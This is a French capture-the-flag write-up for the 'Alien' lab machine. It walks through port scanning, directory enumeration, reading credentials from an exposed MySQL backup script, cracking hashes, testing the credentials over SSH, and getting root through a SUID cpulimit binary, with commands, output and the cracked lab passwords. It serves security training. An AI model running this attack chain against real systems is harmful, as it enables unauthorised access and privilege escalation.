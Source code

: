 # Alien
1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.207
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.207...100%
[+] Scan Nmap 192.168.56.207...100%
 
[+] 9000/tcp open
[+] 22/tcp open
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.207-tcp.html     |
==========================================================
```

&nbsp;

**<span style="color: #dddddd;">👊</span> Gobuster**

Allons voir les `dir` cacher

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $gobuster dir -u http://192.168.56.207/ -w /usr/share/wordlists/dirb/big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.207/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htaccess.html       (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htpasswd.html       (Status: 403) [Size: 279]
/.htpasswd.bak        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/backup               (Status: 301) [Size: 317] [--> http://192.168.56.207/backup/]
/favicon.ico          (Status: 200) [Size: 17726]
/game.html            (Status: 200) [Size: 701]
/images               (Status: 301) [Size: 317] [--> http://192.168.56.207/images/]
/index.html           (Status: 200) [Size: 2225]
/server-status        (Status: 403) [Size: 279]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

&nbsp;

**<span style="color: #dddddd;">🌍</span> Curl**

`Backup` a l’air intéressant allons voir ça

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $curl http://192.168.56.207/backup/mysql.bak
#!/bin/bash

# Specify which database is to be backed up
db_name=""

# Set the website which this database relates to
website="localhost"

# Database credentials
user="vishal"
password="hacksudo"
host="localhost"

# How many days would you like to keep files for?
days="30"

######################################################
##### EDITING BELOW MAY CAUSE UNEXPECTED RESULTS #####
######################################################

# Set the date
date=$(date +"%Y%m%d-%H%M")

# Set the location of where backups will be stored
backup_location="/var/backups/mysql"

# Create the directory for the website if it doesn't already exist
mkdir -p ${backup_location}/${website}
# Append the database name with the date to the backup location
backup_full_name="${backup_location}/${website}/${db_name}-${date}.sql"

# Set default file permissions
umask 177

# Dump database into SQL file
mysqldump --lock-tables --user=$user --password=$password --host=$host $db_name > $backup_full_name

# Set a value to be used to find all backups with the same name
find_backup_name="${backup_location}/${website}/${db_name}-*.sql"
# Delete files older than the number of days defined
find $find_backup_name -mtime +$days -type f -delete
```

&nbsp;

Dump des hash utilisateur de `mysql` avec les cred trouver précédemment

![dtatabase](https://github.com/user-attachments/assets/a3a57609-3a14-4d6e-ae76-63b4198481af)


&nbsp;

**<span style="color: #dddddd;">🖥️</span> Netexec**

Apres avoir réussi a recuperer les hash des user de la base SQL précédemment , j’ai les ai ensuite cracker pour tester les cred en `SSH`

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.207 -u user.txt -p password.txt --no-bruteforce
SSH         192.168.56.207  22     192.168.56.207   [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         192.168.56.207  22     192.168.56.207   [-] phpmyadmin:root
SSH         192.168.56.207  22     192.168.56.207   [-] shovon:123
SSH         192.168.56.207  22     192.168.56.207   [+] hacksudo:aliens  Linux - Shell access!
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Voyons ce qu’on trouve d’intéressant

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
You can write SUID file: /home/hacksudo/Downloads/cpulimit


```

&nbsp;

<span style="color: #dddddd;">⚙️</span> GTFObin

Linpeas nous a indiquer précédemment qu’avec le binaire `cpuilimit` nous pouvons être `root`

![Capture du 2025-04-21 18-33-29](https://github.com/user-attachments/assets/f9be9e6a-7de1-46e9-a9bf-47448d5249a7)


&nbsp;

Élévation de privilège avec le binaire `cpulimit`

```
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/bash -p
Process 23526 detected
bash-5.0#
```

&nbsp;

Identifiant trouver

| User | Password |
| --- | --- |
| hacksudo | aliens |

&nbsp;
